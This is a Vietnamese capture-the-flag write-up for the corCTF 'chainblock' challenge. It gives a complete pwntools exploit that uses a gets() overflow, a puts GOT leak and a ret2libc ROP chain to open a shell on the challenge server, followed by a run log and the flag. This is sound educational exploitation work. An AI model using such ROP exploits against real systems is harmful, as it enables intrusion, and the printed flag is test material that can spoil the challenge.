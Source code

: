 # Chainblock

## Khảo sát file ELF
### file chainblock
File 64-bit, dynamically linked, và không stripped.
```sh
zir@ubuntu:~/corCTF$ file chainblock
chainblock: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f45d5c8b2bc867b5a9b4b82928a047c87e13bd79, not stripped
```

### checksec

```sh
pwndbg> checksec
[*] '/home/zir/corCTF/chainblock'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found      <----- Buffer Overlow dễ dàng
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)    <----- Địa chỉ gadget sẽ không đổi, .bss không đổi.
    RUNPATH:  './'

```

### Hàm verify()
Chương trình sử dụng hàm gets(s1) cho phép buffer overlow thoải mái không cần quan tâm độ dài. vì thế đè ret và thực hiện ROP dễ dàng. 
```sh
int verify()
{
  char s1[256]; // [rsp+0h] [rbp-100h] BYREF

  printf("Please enter your name: ");
  gets(s1);          <--------------- Buffer overflow -------------
  if ( strcmp(s1, name) )
    return puts("KYC failed, wrong identity!");
  printf("Hi %s!\n", name);
  return printf("Your balance is %d chainblocks!\n", (unsigned int)balance);
}
```

# Solution

* Leak libc , tính libc_base
* Ret2Libc để lên shell.

### Leak libc, tính libc_base

Sử dụng hàm puts để in ra màn hình console địa chỉ bất kỳ, mình sẽ chọn địa chỉ puts
Sau đó quay lại hàm main 1 lần nữa
```python
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)
```
Chương trình sau khi chạy qua payload này sẽ in ra màn hình địa chỉ của puts, bắt địa chỉ hàm puts và tính libc_base

```sh
puts_leak = u64(s.recv(6).ljust(8,'\x00'))
base = puts_leak - puts_off
```

Tính địa chỉ hàm system, địa chỉ chứa chuỗi "/bin/sh" thông qua libc_base vừa tính
```sh
system = sys_off + base
binsh = bin_off + base
```
### Ret2libc

Sau khi chương trình quay lại hàm main, sử dụng kỹ thuật ret2libc để lên shell
```sh
payload2 = padding
payload2 += p64(pop_rdi)
payload2 += p64(binsh)
payload2 += p64(ret)
payload2 += p64(system)
```

File Exploit
```sh
from pwn import *
s = remote('pwn.be.ax', 5000)
#s = process('./chainblock')
libc = ELF('./libc.so.6')
elf = ELF('./chainblock')
#context.log_level="debug"
#pause()

puts_got = 0x404018
puts_plt = 0x401030
pop_rdi  = 0x0000000000401493
puts_off = libc.symbols['puts']
bin_off = next(libc.search('/bin/sh'))
sys_off = libc.symbols['system']
main = elf.symbols['main']
ret = 0x000000000040101a


payload = 'Techlead\x00'
payload = payload.ljust(0x108,'a')
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

s.recvuntil('Please enter your name: ')
s.sendline(payload)
s.recvline()
s.recvline()

puts_leak = u64(s.recv(6).ljust(8,'\x00'))
base = puts_leak - puts_off
system = sys_off + base
binsh = bin_off + base

print "puts_addr >> " + hex(puts_leak)
print "base >> " + hex(base)
print "system >> " + hex(system)
print "binsh >> " + hex(binsh)

payload2 = 'Techlead\x00'
payload2 = payload2.ljust(0x108,'A')
payload2 += p64(pop_rdi)
payload2 += p64(binsh)
payload2 += p64(ret)
payload2 += p64(system)

s.recvuntil('Please enter your name: ')
s.sendline(payload2)
s.interactive()
```

## Run file và cat flag

```sh
zir@ubuntu:~/corCTF$ python solve_chainblock.py 
[+] Opening connection to pwn.be.ax on port 5000: Done
[*] '/home/zir/corCTF/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/zir/corCTF/chainblock'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  './'
puts_addr >> 0x7f248392c9d0
base >> 0x7f24838ac000
system >> 0x7f24838fba60
binsh >> 0x7f2483a57f05
[*] Switching to interactive mode
Hi Techlead!
Your balance is 100000000 chainblocks!
$ 
$ ls
flag.txt
ld-linux-x86-64.so.2
libc.so.6
run
$ cat flag.txt
corctf{mi11i0nt0k3n_1s_n0t_a_scam_r1ght}$  
```

## Flag >>> `corctf{mi11i0nt0k3n_1s_n0t_a_scam_r1ght}`